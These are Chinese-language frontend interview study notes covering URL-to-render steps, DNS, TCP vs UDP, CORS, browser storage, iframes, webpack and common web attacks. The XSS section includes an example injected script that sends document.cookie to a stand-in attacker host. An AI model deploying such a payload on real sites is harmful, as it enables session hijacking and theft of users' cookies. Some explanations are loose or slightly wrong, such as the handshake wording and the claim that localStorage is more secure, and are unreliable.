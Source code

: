 #### 输入url到页面渲染的过程

url 通过dns转换成IP地址 发向服务器 服务器返回tcp连接

三次握手 客户端发送 SYN 包 客户端接受后发送 ACK 和SYN给 客户端 客户端接受后 返回ACK

然后 客户端向 服务器发送http请求	服务器想客户端发送文件 Html css js 



#### DNS域名解析 输入和输出是什么

域名 IP地址



#### UDP和TCP的区别

tcp 传输更可靠 重传机制 需要三次握手进行连接	

udp 传输更快	没有重传	不需要建立连接



#### DNS在网络模型的哪一层

应用层



#### 跨域的定义 怎么解决

当域名不同 或者 协议不同 端口不同

服务端：

```
Access-Control-Allow-Origin: *
Access-Control-Allow-Origin: https://example.com
```

或使用代理服务器：在同一域内设置一个代理服务器，将跨域请求发送到该代理服务器，然后由代理服务器将请求发送到目标服务器，并将响应返回给客户端。

JSONP



#### localstorage和 sessionstorage区别

localstorage 储存在本地客户端	

sessionstorage 储存在本地客户端	但是在会话结束（浏览器关闭）的时候就会删除

#### cookie和localstorage优缺点

`Cookie`：`Cookie`可以设置过期时间，可以是会话级的（浏览器关闭时过期）或持久的（在指定的过期日期前有效）。

`localStorage`：`localStorage`存储的数据是持久的，除非显式删除，否则会一直保存在客户端。

`sessionStorage`：`sessionStorage`存储的数据仅在浏览器会话期间有效，关闭浏览器标签或窗口后数据将被删除

cookie在每个 HTTP 请求中都会被发送到服务器，不安全

local仅储存在客户端 更安全



cookie 和local session用途：

`Cookie`：通常用于在客户端和服务器之间传递身份验证令牌、跟踪用户会话等。

`localStorage` 和 `sessionStorage`：通常用于在客户端保存应用程序状态、缓存数据等。(token 储存在local中)



#### iframe

一个网页中嵌入另一个网页或文档。这个内嵌的网页或文档会被显示在包含它的父页面中的一个独立的矩形框架内。



#### 前端工程化为什么要webpack

**模块化开发：** Webpack 支持模块化开发，允许开发者将前端代码划分为多个模块，每个模块关注特定功能或组件。这提高了代码的可维护性和可重用性。

**资源优化：** Webpack 对资源进行优化，压缩 JavaScript 和 CSS

Webpack 可以配置自动化任务，如编译、打包、测试和部署



#### 常见的攻击有哪些 xss攻击举个例子

**跨站脚本攻击（XSS）：** XSS 攻击是一种攻击方式，攻击者向网页注入恶意脚本，当用户访问包含恶意脚本的页面时，脚本会在用户浏览器上执行，可能窃取用户信息、伪造用户身份等

```js
<!-- 攻击者注入的恶意脚本 -->
<script>
  fetch('https://attacker.com/steal?data=' + document.cookie);
</script>
```

sql注入

csrf跨站请求伪造	

